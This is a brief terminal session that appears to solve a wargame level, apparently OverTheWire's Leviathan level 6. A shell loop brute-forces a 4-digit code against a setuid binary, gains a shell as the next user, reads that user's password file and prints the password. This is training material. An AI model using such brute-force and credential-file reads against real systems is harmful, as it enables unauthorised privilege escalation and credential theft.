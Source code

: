 leviathan6@leviathan:~$ ls -alh
total 28K
drwxr-xr-x  2 root       root       4.0K Aug 26  2019 .
drwxr-xr-x 10 root       root       4.0K Aug 26  2019 ..
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root       3.5K May 15  2017 .bashrc
-r-sr-x---  1 leviathan7 leviathan6 7.3K Aug 26  2019 leviathan6
-rw-r--r--  1 root       root        675 May 15  2017 .profile

leviathan6@leviathan:~$ ./leviathan6
usage: ./leviathan6 <4 digit code>


leviathan6@leviathan:~$ for i in {0000..9999}; do ./leviathan6 $i; done


$ whoami
leviathan7
$ cat /etc/leviathan_pass/leviathan7
ahy7MaeBo9